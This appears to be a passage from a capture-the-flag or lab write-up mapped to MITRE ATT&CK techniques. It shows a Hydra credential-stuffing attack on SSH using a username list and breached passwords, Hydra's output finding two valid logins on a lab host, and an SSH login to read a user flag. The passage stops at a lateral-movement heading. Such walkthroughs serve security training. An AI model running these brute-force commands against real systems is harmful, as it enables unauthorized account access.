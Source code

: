 | Technique ID                                                 | Name                | Tool(s) Used |
| ------------------------------------------------------------ | ------------------- | ------------ |
| [T1078](https://attack.mitre.org/techniques/T1078/)          | Valid Accounts      | Hydra, SSH   |
| [T1110](https://attack.mitre.org/techniques/T1110/004/)      | Credential Stuffing | Hydra        |

---

### Steps

**Crafting the Credential Stuffing Attack**

Make a `users.txt` list which reflects the naming convention found on the SSH Banner:  
Naming Convention: `f_lastName`
<details><summary>Example `users.txt`:</summary></details>  

With `users.txt` and the breached credentials list, initiate the credential stuffing attack:  

Command:
```bash
hydra -L users.txt -P breachedCreds.txt $ip ssh
```
  
Output:  
<PRE>
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-05 01:49:17  
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 119 login tries (l:17/p:7), ~8 tries per task  
[DATA] attacking ssh://10.10.43.128:22/  
[22][ssh] host: 10.10.43.128   login: j_moore   password: **********  
[22][ssh] host: 10.10.43.128   login: m_brown   password: **********  
1 of 1 target successfully completed, 2 valid passwords found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-05 01:50:07  
</PRE>

---

**Gain Initial Foothold**

Use the newly found credentials to gain access to the target and retrieve the user flag.    

Commands:  
```bash
ssh j_moore@$ip  
cat /home/j_moore/userFlag.txt 
```

---

## Lateral Movement (MITRE ATT&CK Outline)
